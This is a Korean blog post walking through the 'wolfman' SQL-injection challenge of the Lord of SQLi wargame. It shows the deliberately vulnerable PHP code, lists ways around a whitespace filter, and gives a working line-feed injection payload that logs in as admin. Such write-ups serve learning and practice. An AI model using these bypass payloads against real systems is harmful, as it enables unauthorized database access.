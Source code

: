 ```yaml
---
layout: post
title: "LoS wolfman"
author: "isanghyeon"
tags: wargame
---
```


|문제 명|풀이 여부|URL|
|:------:|:---:|:-----:|
| **wolfman** | <span style="color:red">O</span> | https://los.rubiya.kr/chall/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php |

<hr/><br>

### Challenge Source Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

<br>

### Analysis Source Code
- #### preg_match function for $_GET[pw]
> ```php 
> preg_match('/prob|_|\.|\(\)/i', $_GET[pw])
> ```
> ```php
> preg_match('/ /i', $_GET[pw])
> ```
- #### Solve Conditions
> ```php
> f($result['id'] == 'admin') solve("wolfman");
> ```
|query|parms1|params2|
|:--:|:--:|:--:|
|select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'|id='guest'|pw='{$_GET[pw]}'|

본 문제에서 말하는 건 whitespace에 대한 우회를 말한다.  
preg_match() 에서 ``` '/ /i' ``` 와 같이 정규표현식이 작성되어 있다.  
따라서 whitespace를 우회하기 위해 사용될 수 있는 벡터를 아래 테이블을 통해 보자.

|vector|description|
|:--:|:--:|
| tab | description |
| line feed | description |
| carrage return | description |
| comment(/**/, --%20, #) | description |
| \(, \) | description |
| + | description |

특정 query가 삽입되었을 때 반환되는 array의 'id' 인덱스의 값이 'admin'이면 solve 된다.  
whitespace를 우회하기 위헤 ``` %0a ```를 활용해보자.  

최종적인 공격 벡터는 다음과 같다.  
```sql
select id from prob_wolfman where id='guest' and pw='nop'%0a(line feed) or id='admin'#'
```

<hr/>
<br>

### Exploit Source Code
|작성 언어|Exploit Link|How to Exploit|
|:------:|:---:|:--:|
| **Python3.8** | https://github.com/isanghyeon/LordofSQLi-Solved-Exploit/tree/master/wolfman | whitespace bypass |